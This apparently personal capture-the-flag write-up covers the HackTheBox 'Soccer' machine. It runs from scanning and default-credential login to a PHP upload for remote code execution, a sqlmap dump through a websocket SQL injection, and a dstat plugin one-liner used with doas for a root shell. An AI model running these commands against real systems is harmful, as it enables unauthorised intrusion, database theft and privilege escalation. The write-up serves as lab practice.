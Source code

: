 first nmap

`sudo nmap -sC -sV -p- -oN soccer -T4 10.10.11.194
`
![[Pasted image 20240524224700.png]]

starting with the web port 80

nothing interesting at the main page let's fuzz
![[Pasted image 20240524224828.png]]

we got tiny
`ffuf -u http://soccer.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -ic
`
![[Pasted image 20240524224903.png]]

we have tiny file manager
![[Pasted image 20240524224934.png]]

a quick google search got as the default creds ==admin admin@123==
we can upload anything we want , so let's upload a php file and get rce 

![[Pasted image 20240524225229.png]]

![[Pasted image 20240524225251.png]]

nothing Interesting , I will run ==linpeas== 

we got another subdomain , listening on port 80 
![[Pasted image 20240524225701.png]]

after adding it to our /etc/hosts file  
![[Pasted image 20240524225753.png]]

same website but new functionality 

let's create new account and login into the app 

we got this /check page , it seems like it's check for a ticket if it's available in the database 

![[Pasted image 20240524230140.png]]

![[Pasted image 20240524230153.png]]

the weird thing is I try to intercept this request but I can't catch it 
![[Pasted image 20240524230353.png]]

if we want to catch this , we need to start intercepting from the beginning , like from the sign-in part that's at least what I learned from watching ippsec solving it 

![[Pasted image 20240524230529.png]]

there's a  boolean injection via this websocket , if the query i correct returns Exists else return doesn't exist
![[Pasted image 20240524230732.png]]
let's use ==sqlmap== to exploit it 
`sqlmap -u ws://soc-player.soccer.htb:9091  --data '{"id":"80989"}' --dbms  mysql --risk 3 --level 5 --batch --dump --thread 10
`
![[Pasted image 20240524230947.png]]

we can ssh as player
![[Pasted image 20240524231335.png]]

`find / -perm -4000 2>/dev/null
`
![[Pasted image 20240524231328.png]]

![[Pasted image 20240524231422.png]]


small research about doas seems like small sudo o something like that 
and we need to find a doas.conf file so we now which command is running 

we can run ==dstat== as root
`cat /usr/local/etc/doas.conf`
![[Pasted image 20240524231722.png]]
https://gtfobins.github.io/gtfobins/dstat/
![[Pasted image 20240524231758.png]]

`echo 'import os; os.execv("/bin/bash", ["bash"])' > /usr/local/share/dstat/dstat_d0s3nt.py`
`doas -u root /usr/bin/dstat --d0s3nt`

![[Pasted image 20240524232504.png]]